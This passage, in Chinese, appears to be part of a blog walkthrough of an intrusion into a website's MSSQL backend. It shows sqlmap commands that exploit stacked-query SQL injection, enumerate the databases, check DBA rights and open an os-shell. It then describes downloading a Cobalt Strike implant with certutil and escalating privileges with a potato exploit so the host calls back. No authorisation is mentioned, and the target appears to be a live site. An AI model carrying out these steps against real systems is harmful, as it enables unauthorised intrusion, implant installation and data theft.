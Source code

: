     python2 sqlmap.py -r post.txt --random-agent --batch

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091620.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091621.png)

  

发现是堆叠注入，MSSQL数据库，看看它的数据库

  * 

    
    
    python2 sqlmap.py -r post.txt --random-agent --batch --dbs

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091622.png)

  

从这里的数据库名称就可以判断，其中存在代理、平台、会员等数据库。接下来先不爆数据，先想办法拿shell。开始尝试利用os-shell
Getshell，在这之前先判断最近用户是否为DBA。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091623.png)

  

是DBA就直接os-shell，如果不是DBA，就没必要os-shell了。这里可以直接os-shell，成功执行命令。

  *   * 

    
    
    python2 sqlmap.py -r post.txt --random-agent --batch --is-dbapython2 sqlmap.py -r post.txt --random-agent --batch --os-shell

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091624.png)

  

那么接下来就是利用certutil远程下载CS马，执行上线（这里最好就查看一下进程，看看有没有存在杀软，但是因为接收回显信息比较慢，所以为了高效，我这里就直接下载执行了，然后根据回显结果去判断，如果上线不成功，那有两种情况，要么杀软拦截，要么不能出网）

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091625.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822091626.png)

  

当前不是system权限，所以先进行提权，利用甜土豆进行提权并反弹到CS上。

  